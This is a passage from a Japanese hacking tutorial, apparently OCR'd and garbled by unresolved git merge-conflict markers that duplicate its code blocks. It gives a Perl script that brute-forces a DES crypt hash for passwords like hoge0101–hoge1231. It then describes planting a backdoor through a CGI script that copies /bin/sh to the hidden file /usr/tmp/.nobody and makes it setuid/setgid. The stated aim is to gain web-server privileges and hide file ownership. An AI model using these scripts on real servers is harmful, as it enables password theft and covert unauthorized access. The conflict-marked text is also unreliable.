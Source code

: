 　ついでなので簡単なDESをCrackするプログラムを紹介しよう。
　Johnは強力だが、パスワードが一定の法則（例えばhoge（誕生日））の場合、自
分でcrack用のプログラムを書いた方が早い（辞書を作る方法もあるが）。

<<<<<<< HEAD
-----
#!/usr/bin/perl

my $DES  = 'XGJDwsgcD4REI';
my $salt = substr($DES, 0, 2);

for (my $i = 101; $i < 1232; $i++) {
=======
\-\-\-\-\-
\#!/usr/bin/perl

my $DES  \= 'XGJDwsgcD4REI';
my $salt \= substr($DES, 0, 2);

for (my $i \= 101; $i < 1232; $i++) {
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
    if (crypt(sprintf("hoge%04d", $i), $salt) eq $DES) {
        printf("passwd: hoge%04d\n", $i);
        last;
    }
}
<<<<<<< HEAD
-----

　これは、hoge0101 - hoge1231 までを総当たりするものだ。簡単だろう!
=======
\-\-\-\-\-

　これは、hoge0101 \- hoge1231 までを総当たりするものだ。簡単だろう!
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
　DESは一方方向の暗号化なので、実際に候補となるパスワードを同じアルゴリズ
ム暗号化し、すでに暗号化されているものと比べていけばいいのだ。

2. CGI,PHPからbackdoor（Linux/CGI/Shell）

　これは特に問題ないように思えるが、管理者としてはあまり気持ちのいいもので
はないので一応ここに書いておく。

　CGIやmod_phpでのPHPは、httpdの権限で動くことが多い。もし、１つのサーバで
shellアカウントとCGIが両方使える環境にあるのなら、httpdの権限を取ることが
出るだろう。これでファイルの所有者などをある程度誤魔化せるので少し大き目の
ファイルを置いておく不安が減るのだ。

　一番初めに思いつくのが、

<<<<<<< HEAD
-----
#!/usr/bin/perl

print "Content-Type: text/plain\x0d\x0a\x0d\x0a";

system('cp /bin/sh /usr/tmp/.nobody') and print $!;
system('chmod 6755 /usr/tmp/.nobody') and print $!;
-----
